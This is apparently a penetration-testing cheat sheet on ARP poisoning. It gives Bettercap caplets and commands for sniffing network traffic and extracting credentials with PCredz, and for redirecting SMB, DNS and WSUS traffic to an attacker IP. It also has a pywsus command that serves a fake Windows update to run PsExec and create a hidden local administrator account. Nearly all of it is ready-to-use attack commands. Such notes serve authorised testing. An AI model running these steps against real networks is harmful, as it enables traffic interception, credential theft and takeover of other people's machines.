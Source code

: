 # ARP Poisoning

## Tools: Bettercap, PCredz, pywsus 

Link: https://github.com/lgandx/PCredz and https://github.com/GoSecure/pywsus

## Use cases

# Dump Network Secrets

### 1) Create/modify config file

#### Bettercap config file

##### quick recon of the network
    net.probe on

##### set the ARP poisoning
    set arp.spoof.targets <target_IP>
    set arp.spoof.internal true
    set arp.spoof.fullduplex true

##### control logging and verbosity
    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules
    arp.spoof on
    net.sniff on

### 2) Run bettercap

    sudo ./bettercap --iface <interface> --caplet spoof.cap

### 3) Then sniff with Wireshark. When it is finish, save the trace in a .pcap file and extract the secrets:

    python3 ./Pcredz -f extract.pcap

# SMB Spoofing

### 1) Start the SMB server for capture or relay then start the poisoning attack.

##### quick recon of the network
    net.probe on

##### set the ARP spoofing
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the original SMB server
    set any.proxy.iface $interface
    set any.proxy.protocol TCP
    set any.proxy.src_address $SMB_server_ip
    set any.proxy.src_port 445
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 445

##### control logging and verbosity

    events.ignore endpoint
    events.ignore net.sniff.mdns

# start the modules

    any.proxy on
    arp.spoof on
    net.sniff on

### 2) Run bettercap OR responder

    sudo ./bettercap --iface <interface> --caplet spoof.cap

# DNS Spoofing

### 1) Start the DNS server (responder, dnschef, or bettercap) for DNS poisoning then start the ARP poisoning attack.

##### quick recon of the network
    net.probe on

##### set the ARP spoofing
   
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the original DNS server
   
    set any.proxy.iface $interface
    set any.proxy.protocol UDP
    set any.proxy.src_address $DNS_server_ip
    set any.proxy.src_port 53
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 53

##### control logging and verbosity

    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules

    any.proxy on
    arp.spoof on
    net.sniff on

### 2) Run bettercap OR responder OR DNSChef

        sudo ./bettercap --iface <interface> --caplet spoof.cap

# WSUS Spoofing (Windows Server Update Services)

ARP poisoning for WSUS spoofing in a two-subnets layout (attacker + client in the same segment, legitimate WSUS server in another one). Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

### 1) The evil WSUS server needs to be started before doing ARP poisoning. The pywsus (Python) utility can be used for that matter.

    python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'

### 2) Once the WSUS server is up and running, the ARP poisoning attack can start.

##### quick recon of the network

    net.probe on

##### set the ARP spoofing
    
    set arp.spoof.targets $client_ip
    set arp.spoof.internal false
    set arp.spoof.fullduplex false

##### reroute traffic aimed at the WSUS server

    set any.proxy.iface $interface
    set any.proxy.protocol TCP
    set any.proxy.src_address $WSUS_server_ip
    set any.proxy.src_port 8530
    set any.proxy.dst_address $attacker_ip
    set any.proxy.dst_port 8530

##### control logging and verbosity

    events.ignore endpoint
    events.ignore net.sniff.mdns

##### start the modules
 
    any.proxy on
    arp.spoof on
    net.sniff on

### 3) The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

    bettercap --iface $interface --caplet wsus_spoofing.cap

### 4) The search for Windows updates can be manually triggered when having access to the target computer by going to 

    Settings > Update & Security > Windows Update > Check for updates.



    
